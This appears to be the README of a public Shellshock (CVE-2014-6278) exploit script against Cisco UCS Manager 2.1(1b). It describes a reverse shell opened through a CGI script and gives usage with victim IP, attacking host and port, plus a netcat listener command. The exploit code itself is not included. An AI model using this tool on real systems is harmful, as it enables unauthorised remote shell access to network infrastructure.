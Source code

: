 Cisco UCS Manager 2.1(1b) Shellshock Exploit

-CVE-2014-6278

-Confirmed on version 2.1(1b), but more are likely vulnerable.

-Cisco's advisory: https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20140926-bash

-Exploit generates a reverse shell to a nc listener.

-Exploit Author: @thatchriseckert

Exploit goes after a specific cgi script in Cisco UCS manager to create a reverse shell back to the ip/port specified.  Also posted on edb:  https://www.exploit-db.com/exploits/39568/

Usage -

[*] Usage: <Victim IP> <Attacking Host> <Reverse Shell Port>
[*] Example: shellshock.py 127.0.0.1 127.0.0.1 4444
[*] Listener: nc -lvp <port>



